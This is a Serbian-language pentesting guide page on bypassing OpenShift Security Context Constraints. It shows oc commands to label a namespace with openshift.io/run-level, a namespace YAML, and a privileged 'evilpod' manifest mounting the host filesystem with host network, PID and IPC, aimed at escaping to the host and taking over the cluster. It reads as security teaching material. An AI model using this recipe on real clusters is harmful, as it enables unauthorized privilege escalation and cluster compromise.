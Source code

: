 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Originalni autor ove stranice je** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegovani Namespaces

Po defaultu, SCC se ne primenjuje na sledeće projekte:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ako implementirate podove unutar jednog od ovih namespaces, SCC se neće primenjivati, što omogućava implementaciju privilegovanih podova ili montiranje host fajl sistema.

## Namespace Label

Postoji način da se onemogući primena SCC na vašem podu prema RedHat dokumentaciji. Biće vam potrebna najmanje jedna od sledećih dozvola:

- Kreirajte Namespace i kreirajte Pod u ovom Namespace
- Uredite Namespace i kreirajte Pod u ovom Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specifična oznaka `openshift.io/run-level` omogućava korisnicima da zaobiđu SCC-e za aplikacije. Prema RedHat dokumentaciji, kada se ova oznaka koristi, nijedni SCC-i se ne primenjuju na sve podove unutar tog imenskog prostora, efikasno uklanjajući sve restrikcije.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj Oznaku

Da dodate oznaku u vašem imenskom prostoru:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Da biste kreirali prostor imena sa oznakom putem YAML datoteke:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sada, svi novi podovi kreirani u imenu prostora ne bi trebali imati nijednu SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

U odsustvu SCC, nema ograničenja na definiciju vašeg poda. To znači da se zlonamerni pod može lako kreirati da pobegne na host sistem.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sada je postalo lakše eskalirati privilegije za pristup host sistemu i potom preuzeti ceo klaster, stičući 'cluster-admin' privilegije. Potražite deo **Node-Post Exploitation** na sledećoj stranici:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Prilagođene oznake

Pored toga, na osnovu ciljne postavke, neke prilagođene oznake / anotacije mogu se koristiti na isti način kao u prethodnom scenariju napada. Čak i ako nisu napravljene za to, oznake se mogu koristiti za davanje dozvola, ograničavanje ili ne određenog resursa.

Pokušajte da potražite prilagođene oznake ako možete da pročitate neke resurse. Evo liste zanimljivih resursa:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Nabrojite sve privilegovane imenske prostore
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Napredni exploit

U OpenShift-u, kao što je ranije prikazano, imati dozvolu za implementaciju poda u imenskom prostoru sa `openshift.io/run-level` oznakom može dovesti do jednostavnog preuzimanja klastera. Sa perspektive podešavanja klastera, ova funkcionalnost **ne može biti onemogućena**, jer je inherentna dizajnu OpenShift-a.

Međutim, mere ublažavanja poput **Open Policy Agent GateKeeper** mogu sprečiti korisnike da postave ovu oznaku.

Da bi zaobišli pravila GateKeeper-a i postavili ovu oznaku za izvršenje preuzimanja klastera, **napadači bi morali da identifikuju alternativne metode.**

## Reference

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
